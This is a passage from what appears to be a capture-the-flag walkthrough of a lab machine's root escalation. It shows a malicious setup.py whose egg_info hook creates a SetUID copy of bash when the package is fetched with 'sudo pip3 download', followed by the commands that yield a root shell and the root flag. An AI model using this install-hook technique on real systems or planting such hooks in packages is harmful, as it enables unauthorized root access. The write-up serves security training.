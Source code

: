 

`/tmp/0xdf` is there and owned by root.

#### Shell

To get a shell, I'll update my `setup.py`:



    from setuptools import setup
    from setuptools.command.egg_info import egg_info
    import os


    class RunEggInfoCommand(egg_info):
        def run(self):
            os.system("cp /bin/bash /tmp/0xdf")
            os.system("chmod 4777 /tmp/0xdf")
            egg_info.run(self)

    setup(
        name = "own_this_is_for_you",
        version = "0.0.1",
        license = "MIT",
        packages=[],
        cmdclass={
            'egg_info': RunEggInfoCommand
        },
    )



Now instead of `touch` a file, it copies `bash` and sets it as SetUID.
I'll do the same steps, `python -m build`, upload, set the repo public
(there's a cron constantly resetting that), and run the command as john:



    john@only4you:~$ sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz
    Collecting http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz
      Downloading http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz (821 bytes)
      Saved ./own_this_is_for_you-0.0.1.tar.gz
    Successfully downloaded own-this-is-for-you



Now `/tmp/0xdf` is `bash`, which I can run with `-p` to keep root:



    john@only4you:~$ /tmp/0xdf -p
    0xdf-5.0# 



And read the root flag:



    0xdf-5.0# cat root.txt
    c9b85bc4************************







